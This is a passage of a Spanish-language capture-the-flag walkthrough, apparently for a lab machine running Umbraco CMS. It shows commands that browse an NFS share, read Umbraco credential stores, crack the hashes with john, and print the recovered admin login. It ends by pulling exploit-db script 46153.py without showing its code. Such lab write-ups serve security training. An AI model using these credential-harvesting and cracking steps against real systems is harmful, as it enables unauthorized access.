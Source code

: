 Vemos que hay un exploit en python pero tenemos que estar loggeado.

Miramos por internet si hay un default path para el panel de administracion y vemos la routa 
```bash
 http://mysite/umbraco 
```
. Si vamos a este directorio
vemos el panel de autheticacion. Ahora tenemos que buscar el usuario y la contraseña.

## Vulnerability Assessment {-}

### Analyzando el mount {-}

```bash
cd /mnt/nfs
ls
cd App_Browsers
cd ..
cd App_Data
ls
```

Aqui vemos un fichero umbraco.config y un Umbraco.sdf. Miramos lo que contienen

```bash
cat umbraco.config
cat Umbraco.sdf
strings Umbraco.sdf | less -S
```

Aqui vemos usuarios con hashes.

### Crack hash con john {-}

Copiamos el hash en un fichero y lo crackeamos con john

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

Ya tenemos una contraseña. Nos connectamos en el panel de authenticacion.

```bash
user: admin@htb.local 
pwd : baconandcheese
```

### Abusando de Umbraco {-}

Ahora que hemos ganado acceso al dashboard de Umbraco, tenemos que encontrar la via para ganar acceso al systema. Como ya hemos encontrado 
exploits en la **exploit-db**, vamos a utilizar una de ellas.

```bash
searchsploit umbraco
searchsploit -m 46153.py
mv 46153.py umbraco_exploit.py
vi umbraco_exploit.py
```
